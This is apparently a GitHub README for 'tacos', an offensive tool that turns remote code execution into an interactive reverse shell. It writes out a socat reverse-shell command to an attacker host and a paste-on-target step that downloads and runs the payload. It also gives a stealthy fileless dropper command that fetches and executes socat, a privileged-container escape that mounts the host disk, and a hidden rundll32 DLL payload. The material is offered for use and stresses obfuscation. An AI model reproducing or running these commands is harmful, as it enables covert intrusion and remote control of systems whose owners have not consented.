 # tacos 🌮 
<sup>(reverse `socat`)</sup>

<div align=center>
<img src=https://github.com/ariary/tacos/blob/main/logo.png width=250>

Spawn a pty in your reverse shell to <strong>automaticaly</strong> make it <strong>interactive</strong> for socat listener.

<strong> Fast interactive reverse shell set-up [ 🐳 (container) ](#with-docker-recommended)</strong>

<sup><code><b> All credit goes to <a href=https://github.com/laluka/pty4all>laluka</a> idea </b></code></sup>
</div>



Equivalent of:
```shell
socat exec:'bash -il',pty,stderr,setsid,sigint,sane OPENSSL:[ATTACKER_IP:PORT],verify=0
```

**Why ?**
* transform RCE to interactive reverse shell with almost no prerequisite (only `curl`)
* cross-platform *(windows support is OK but not yet interactive. It is recommended to use non-docker solution for it)*
* tired of hitting ^C and loosing your shell?
* too lazy to copy/paste/learn socat command
* target doesn't have `socat` and you don't want to do [this](#alternative)
* provide more advanced configuration to the tty (alias, etc)
* easier to obfuscate


## Usage

« I quicly want an interactive reverse shell», take a wrap! 🥙
```shell
# On attacker machine
tmux
wrap --lhost [ATTACKER_IP] #launch socat listener + output command to run on target

# On target
# paste command outputted by wrap: it will download tacos, and launch it to obtain the interactive revshell
```

<details><summary><h4>🎁 Bonus n°1: expose listener to the world wide web</h4></summary>
Useful if target can't directly reach the attacker machine, but has internet access
<br> On attacker machine, install <code>ngrok</code> or <code>bore</code> and launch your listener:
<pre><code>wrap -n
</code></pre>

<i><b>N.B:</b></i> ngrok is more stable than bore for now
</details>

### With docker (recommended)

Source aliases *(for simplicity)*:
```shell
alias tacos.container='docker run --net host --rm -it ariary/tacos'
```

Launch multi-handler listener:
```shell
tacos.container [LISTENING_ADDR] [LISTENING_PORT] # [OPTIONAL_TACOS_ARS]
```

***Notes about `tacos` container security:***
> From a networking point of view, this is the same level of isolation as if the processes were running directly on the host and not in a container. However, in all other ways, such as storage, process namespace, and user namespace, the process is isolated from the host.

<details>
<summary><h4>🎁 Bonus n°2: <code>tacos</code> reverse shell image</h4></summary>
Useful if target is running docker, kubernetes, etc ...
<br> On attacker machine, launch your <code>tacos</code> listener as usual
<br> On target:
<pre><code>
docker run --privileged --rm -it ariary/tacos-reverse [TACOS_LISTENER_IP]:[TACOS_LISTENER_PORT]
</code></pre>
<blockquote>💡: <code>--privileged</code> mode is not mandatory. It is used to allow container escaping with:
<pre><code>
fdisk -l
mkdir /mnt/hostfs
mount /dev/sda1 /mnt/hostfs
</code></pre>
</blockquote>
<br>
<blockquote>💡: If you only have writing access to a manifest deploying containers. Use <code>ariary/tacos-reverse</code> image with appropriate arguments
</blockquote>
</details>


## Install
### tacos
#### Docker
```shell
docker pull ariary/tacos
```

#### Release
```shell
curl -lO -L -s https://github.com/ariary/tacos/releases/latest/download/tacos && chmod +x tacos
```

#### From git
need `go`:
```shell
git clone https://github.com/ariary/tacos.git && cd tacos
make before.build
make build.tacos          # or make build.tacos.windows
```

### wrap
need `nim`:

```shell
git clone https://github.com/ariary/tacos.git && cd tacos
make build.wrap 
```

## Alternatives

Alternatively, if target does not have `socat`:
**Host** a [static](https://github.com/minos-org/minos-static/blob/master/static-get) version of `socat` binary and **download + execute it** using the stealthy  [`filess-xec`](https://github.com/ariary/fileless-xec) dropper:
```shell
# On attacker machine
# get socat static & expose it
static-get socat
python3 -m http.server 8080

# On target machine
# Use already downloaded fileless-xec to download socat and stealthy launch it with argument
fileless-xec [ATTACKER_IP]:8080/socat -- exec:'bash -il',pty,stderr,setsid,sigint,sane OPENSSL:[ATTACKER_IP]:[SOCAT_LISTENING_PORT],verify=0
```

### Use dll instead of `.exe`
```shell
# On attacker machine:
# modify ./cmd/tacosdll/tacosdll.go with the according IP:PORT
$ GOOS=windows GOARCH=amd64 CGO_ENABLED=1 CC=x86_64-w64-mingw32-gcc go build -buildmode=c-shared -ldflags="-w -s -H=windowsgui" -o tacos.dll ./cmd/tacosdll/tacosdll.go

# On remote:
> rundll32.exe ./tacos.dll,Tacos
```
